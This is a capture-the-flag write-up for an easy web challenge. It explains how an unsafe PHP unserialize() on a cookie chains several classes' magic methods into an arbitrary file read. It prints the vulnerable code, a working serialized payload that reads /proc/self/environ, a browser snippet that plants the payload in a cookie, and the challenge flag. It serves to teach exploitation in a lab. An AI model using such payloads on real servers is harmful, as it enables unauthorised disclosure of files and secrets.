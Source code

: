 ```
                    ▗▄▄▖  ▄▄▄  ▗▖   ▗▖   ▄   ▄ 
                    ▐▌ ▐▌█   █ ▐▌   ▐▌   █   █ 
                    ▐▛▀▚▖▀▄▄▄▀ ▐▛▀▚▖▐▛▀▚▖ ▀▀▀█ 
                    ▐▙▄▞▘      ▐▙▄▞▘▐▙▄▞▘▄   █ 
                                          ▀▀▀  
```

**Category:** Web
**Level:** Easy
**Instance:** http://bmnzdgnsz2l4.playat.flagyard.com
> My friend is a chess enthusiast. He has a website where he can analyse his friends games.

**Flag:** FlagY{f0879e26ead83c0faeab87d69e00e20d}

# WHAT EVEN IS THIS

Imagine a chess site where Bobby Fischer’s ghost streams divine commentary... and also hands you a magic key to read any file on the server. That’s what we found.

Technically: the app trusts a cookie called `saved_position`, base64-decodes it, and `unserialize()`-s the result. The app ships with `classes.php` that defines a few PHP classes with `__wakeup()`, `__destruct()`, and `__toString()` behaviors that can be chained together to **make the app read arbitrary files** and print them into the HTTP response.

![sweet](/assets/images/sweet.gif)

# WHY THIS IS A PROBLEM (TL;DR)

Untrusted `unserialize()` + class magic methods = remote file disclosure (RFD).

Attack surface: attacker-controlled cookie (`saved_position`) → arbitrary PHP object instantiation and execution of magic code paths.

Short flow:
1. We craft a serialized PHP object graph (a `MoveValidator` that references a `PositionAnalyzer` and a `ChessGame`).
2. `unserialize()` triggers `MoveValidator::__wakeup()` which calls the analyzer with our chess object.
3. `PositionAnalyzer` stores the value, and on script shutdown `__destruct()` echoes it.
4. `echo $chessObject` calls `ChessGame::__toString()` which does `file_get_contents($this->position)`. Boom — file contents turned into page output.

# SOLUTION

First things first, let's check out the source codes `index.php` and `classes.php`. From observing them, we discover several revelations.

(1) The app accepts a cookie that gets `unserialize()`-d. The app decodes the cookie and calls `unserialize()` directly on attacker-controlled data. Then, `unserialize()` will recreate objects of any class present in `classes.php`. This means that we can craft serialized objects that trigger magic methods during deserialization.

```php
// the rest of the index.php code
if (isset($_COOKIE['saved_position'])) {
    try {
        $obj = unserialize(base64_decode($_COOKIE['saved_position']));
    } catch (Exception $e) {
        $error = 'Invalid position data!';
    }
}
// the rest of the index.php code
```

(2) `MoveValidator::__wakeup()` is automatically executed on `unserialize()` and calls into the analyzer with our `chess` object. `__wakeup()` runs during deserialization. If the `MoveValidator` object has `analyzer` and `chess` properties set, `__wakeup()` invokes `validateMove` on the analyzer, passing the `chess` object, which is exactly what we want to link objects together.

```php
// the rest of the classes.php code
class MoveValidator {
    // rest of the code
    public function __wakeup() {
        if ($this->analyzer && $this->chess) {
            $this->analyzer->validateMove($this->chess);
        }
    }
}
// the rest of the classes.php code
```

(3) `PositionAnalyzer::validateMove()` stores the passed object in `$currentPosition`. Our `ChessGame` object becomes stored inside the `PositionAnalyzer` instance; this value will later be used by the destructor. Furthermore, `PositionAnalyzer::__destruct()` echoes `$currentPosition` when the request ends. On script shutdown, PHP will call `__destruct()` on remaining objects. The `echo` will attempt to print whatever object is in `$currentPosition`. If that object is an instance of a class implementing `__toString()`, PHP will call `__toString()` to convert it to a string for echo.

```php
// the rest of the classes.php code
class PositionAnalyzer {
    // rest of the code
    public $currentPosition;
    // rest of the code
    public function validateMove($position) {
        $this->currentPosition = $position;
    }

    public function __destruct() {
        if ($this->currentPosition) {
            echo $this->currentPosition;
        }
    }
}
```

(4) `ChessGame::__toString()` reads a *file path* and returns the file contents. `__toString()` calls `file_get_contents($this->position)`. If we control `$position` (we do, btdubs, via serialization), we can have the server fetch *any file* it can read and return its contents in the HTTP response. This is the final gadget that converts deserialization into **arbitrary file read**.

```php
class ChessGame {
    public $position;
    // rest of the code
    public function __toString() {
        return file_get_contents($this->position);
    }
}
// the rest of the classes.php code
```

Putting them all together, we get a serialized object graph of which is a `MoveValidator` instance with: `analyzer` → `PositionAnalyzer` and `chess` → `ChessGame` where `ChessGame::$position` is the filename we want to read. In our case, let's poke around and see where things are by going through `/proc/self/environ` first. This is because `/proc/self/environ` can reveal environment info (PWD, HOME, etc.) or variables used by the process.

The next problem is, *how to create the payload to read a file?* Following our thoughts above, we will create a payload using the same object chain: `MoveValidator` → `PositionAnalyzer` → `ChessGame` where `ChessGame::$position` is the filename we want to read.

```
O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:<L>:"<PATH>";}}
```

where:

- `<PATH>` = file path you want to read
- `<L>` = number of characters in `<PATH>`

So, to seek out `/proc/self/environ`, the payload becomes

```
O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:18:"/proc/self/environ";}}
```

Now that we've got that taken care of, let's turn this into a cookie for `saved_position` and reload.

```js
> document.cookie = 'saved_position=' + btoa(
    'O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:18:"/proc/self/environ";}}'
    ) + '; path=/';
    
> location.reload();
```

![bobby-flag](assets/bobby-flag.png)

![you-know-thats-right](/assets/images/fist-bump.gif)